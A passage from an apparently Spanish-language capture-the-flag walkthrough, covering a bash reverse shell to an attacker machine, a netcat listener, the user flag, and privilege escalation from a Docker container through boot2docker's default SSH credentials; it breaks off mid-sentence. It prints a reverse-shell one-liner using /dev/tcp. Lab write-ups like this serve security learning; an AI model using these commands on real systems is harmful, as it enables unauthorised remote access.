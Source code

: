 Nos da la shell interactiva el el sistema remoto, ahora desde esta shell nos mandamos una consola a nuestra máquina de atacante, mediante este comando:

`bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"`

Nos ponemos en escucha con **netcat** por el puerto que hayamos especificado en la carga para la shell.

`nc -lvnp [PORT]`

![](shell2.webp)

![](nc.webp)

Y nos devuelve la shell y vemos la bandera de usuario.

![](user.webp)

## Escalada de Privilegios:

Para realizar la escalada podemos ver primeramente que nos encontramos dentro de un **doker** por lo que no tenemos acceso a la máquina principal.

Lo podemos ver haciendo un **ifconfig**:

![](ipconfig.webp)

Para saber que se está ejecutando por detrás vamos a lanzar el comando **uname -a**.

![](uname.webp)

Y podemos ver que estamos ante un **boot2docker**, por lo que vamos a buscar sobre esto en internet.

Buscando podemos saber que es una pequeña máquina virtual que facilita ejecutar **Docker** en sistemas que no lo soportan nativamente, como **Windows** o **MacOs** antiguos.

Haciendo una búsqueda por internet me doy cuenta de que tiene unas claves de ssh por defecto, así que me decido a probarlas.

![](defecto.webp)

Realizo la conexión a la máquina virtual que en este caso es la **172.17.0.1**.

![](ssh.webp)

![](ssh1.webp)

Estamos dentro del docker.

Analizando el docker podemos ver que hay un directorio llamado **c.**

![](c.webp)

Entramos y…
